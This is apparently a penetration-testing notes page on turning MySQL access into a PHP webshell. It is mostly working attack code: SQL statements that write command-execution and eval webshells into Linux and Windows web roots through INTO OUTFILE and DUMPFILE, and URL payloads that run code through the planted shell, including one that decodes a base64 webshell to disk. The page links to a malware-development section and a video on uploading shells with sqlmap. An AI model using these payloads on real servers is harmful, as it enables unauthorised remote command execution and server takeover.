 # MySQL

## Create User

### Manual

```

```

### Metasploit

```

```

## 02 - Webshell

### 2.1 - Command Execution

```sql
SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php';

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {​​system($_GET["cmd"]);}​​ ?> </pre></BODY></HTML>' INTO OUTFILE '/var/www/html/shell.php'
```

TODO: Test this method.

```sql
CREATE TABLE `<database_name>`.`user_input`(
`<column_name>` VARCHAR(1000) NOT NULL
) ENGINE = MYISAM;

INSERT INTO user_input values('<?php $cmd=$_GET["cmd"];system($cmd);?>')

SELECT * INTO DUMPFILE '/var/www/html/shell.php' FROM user_input;
```

### 2.2 - Evaluate PHP Code

```sql
SELECT '<?php eval($_GET[evaluate]); ?>' INTO OUTFILE '/var/www/html/eval_php.php'
```

Gather PHP Version

```
http[s]://<URL>//eval_php.php?evaluate=phpinfo();
```

Base64 encoded

```
http[s]://<URL>//eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Implant Execution/Webshell/PHP]]

### Macedonian Security Crew

- [Macedonian Security Crew: Uploading Shell via SQLmap into Database](https://www.youtube.com/watch?v=FjgKtBAiLKQ)